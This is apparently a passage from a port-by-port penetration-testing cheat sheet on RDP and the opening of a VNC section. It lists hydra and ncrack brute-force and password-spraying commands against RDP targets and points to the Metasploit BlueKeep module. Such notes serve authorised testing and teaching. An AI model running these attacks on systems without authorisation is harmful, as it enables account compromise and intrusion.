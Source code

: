 ## Connection

```bash
# Using xfreerdp
xfreerdp /u:user /p:password /v:$TARGET

# Using rdesktop
rdesktop $TARGET -u username -p password

# With domain (if applicable)
xfreerdp /u:domain\\user /p:password /v:$TARGET

# Enable clipboard sharing and drive redirection
xfreerdp /u:user /p:password /v:$TARGET +clipboard /drive:share,/path/to/local/folder
```

## Cracking

```bash
# Hydra brute force
hydra -t 4 -V -f -l user -P rockyou.txt rdp://$TARGET

# With domain
hydra -t 4 -V -f -l user -P rockyou.txt rdp://$TARGET -s 3389 -m "domain:DOMAIN"

# Using ncrack
ncrack -vv --user user -P rockyou.txt rdp://$TARGET
```

## Exploitation

```bash
# If BlueKeep vulnerable (CVE-2019-0708)
# Use Metasploit module: exploit/windows/rdp/cve_2019_0708_bluekeep_rce

# Password spraying attack (try one password against multiple users)
hydra -L users.txt -p 'Password123' rdp://$TARGET
```

---

# 🖥️ Port 5900 - VNC (Virtual Network Computing)

**Common Vulnerabilities**: No authentication, weak passwords, unencrypted communication

## What to Check

- Check for unauthenticated access
- Look for weak or default passwords
- Check if the service is exposed to the internet
